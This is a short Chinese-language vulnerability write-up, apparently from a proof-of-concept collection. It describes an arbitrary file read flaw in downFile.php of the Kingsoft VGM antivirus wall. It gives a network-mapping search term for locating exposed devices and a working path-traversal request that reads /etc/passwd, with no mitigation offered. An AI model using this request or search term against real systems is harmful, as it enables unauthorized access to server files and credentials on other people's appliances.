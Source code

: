 # 金山 VGM防毒墙 downFile.php 任意文件读取漏洞

## 漏洞描述

金山 VGM防毒墙 downFile.php文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 VGM防毒墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"金山VGM"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1649952941780-18a6aa75-45de-487e-bbf7-3fe231d7aec1.png)验证POC

```php
/downFile.php?filename=../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1649953010512-03ef2560-62c5-4e06-8dd9-01650487c045.png)